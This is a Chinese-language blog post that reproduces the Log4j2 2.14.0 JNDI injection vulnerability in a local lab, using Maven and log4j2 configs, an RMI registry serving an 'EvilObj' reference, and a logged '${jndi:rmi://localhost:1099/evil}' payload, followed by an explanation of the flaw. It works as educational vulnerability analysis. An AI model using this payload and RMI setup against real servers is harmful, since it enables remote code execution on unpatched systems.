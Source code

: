 Log4j漏洞复现及原理

# 1.背景

之前在公司收到Log4j2爆出一个重大漏洞，公司有大部分应用使用到了Log4j的2.14.0以下的版本，全公司内部程序员收到消息之后，加班加点升级Log4j的版本到2.14.1（这个版本也不稳定），在此记录一下。

# 2.Log4j的重大漏洞

我们复现一下Log4j 2.14.0版本中出现的安全问题。首先，我们新建一个Maven项目，引入Log4j的jar包

```XML
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>log4j2Demo</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.0</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.0</version>
        </dependency>
    </dependencies>

</project>
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

在resource目录下定义了log4j2.xml，表示log4j2的日志配置信息

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!--status用来指定log4j本身的打印日志的级别.-->
<Configuration status="WARN">
    <Appenders>
        <!--指定打印到控制台的日志格式-->
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>
    </Appenders>
    <Loggers>
        <!-- 默认打印日志级别为 info -->
        <Root level="info">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

接下来是攻击者的自定义类EvilObj，在类加载时执行static静态代码块

```java
package com.lx.rmi;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

/**
 * 在这里实现了ObjectFactory接口，主要是针对EvilObj类无法转换为ObjectFactory对象，其他Java版本中可能不存在这个问题
 * @Author: Xin Liu
 * @Date: 2022/2/15
 */
public class EvilObj implements ObjectFactory {
    static{
        System.out.println("在哪执行的");
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

攻击者也实现了RMIServer（相当于注册中心）

```java
package com.lx.rmi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @Author: Xin Liu
 * @Date: 2022/2/15
 */
public class RMIServer {
    public static void main(String[] args) {
        try{
            Registry registry = LocateRegistry.createRegistry(1099);

            System.out.println("Create RMI Registry on port 1099");
            String url="localhost";
            Reference reference = new Reference("com.lx.rmi.EvilObj", "com.lx.rmi.EvilObj",url);
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.bind("evil",referenceWrapper);
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)



在我们的服务端业务代码中我们使用到了log4j，用info()方法进行打印日志

```java
package com.lx;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * @Author: Xin Liu
 * @Date: 2022/2/14
 */
public class Log4j2Test {
    private static final Logger LOGGER= LogManager.getLogger(Log4j2Test.class);

    public static void main(String[] args) {
        // 解决报错 The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        String userName="${jndi:rmi://localhost:1099/evil}";

        LOGGER.info("Hello,{}",userName);
    }
}
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

结果在服务端的控制台中执行EvilObj类加载的输出

![img](https://img-blog.csdnimg.cn/b3609b6f40c047fca37d5a48a0f03694.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAY2hlcmlzaGx4OTg=,size_20,color_FFFFFF,t_70,g_se,x_16)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

#  3.漏洞原理分析

log4j的源码中执行了lookup方法，这个方法是导致本次漏洞的根因。

JNDI Naming Reference，命名引用

当有客户端通过lookup("refObj")获取远程对象时，获取的是一个**Reference存根(Stub)**，由于是Reference存根，所以客户端会先在本地classpath中去检查是否存在refClassName，如果不存在则去指定的url中动态加载，在**log4j的服务器**上执行加载**类的实例化**操作（静态变量、静态代码块）

黑客在自己的客户端启动一个带有恶意代码的rmi服务，通过服务端的log4j的漏洞，向服务端的jndi context lookup的时候连接自己的rmi服务器，服务端连接rmi服务器执行lookup的时候会通过rmi查询到该地址指向的引用并且**本地实例化这个类**，所以在类中的构造方法或者静态代码块中写入逻辑，就会在**服务端（jndi rmi过程中的客户端）**实例化的时候执行到这段逻辑，导致**jndi注入**。

# 4.参考视频

[Log4j高危漏洞！具体原因解析！全网第一！_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1FL411E7g3?from=search&seid=4352282737714061308&spm_id_from=333.337.0.0)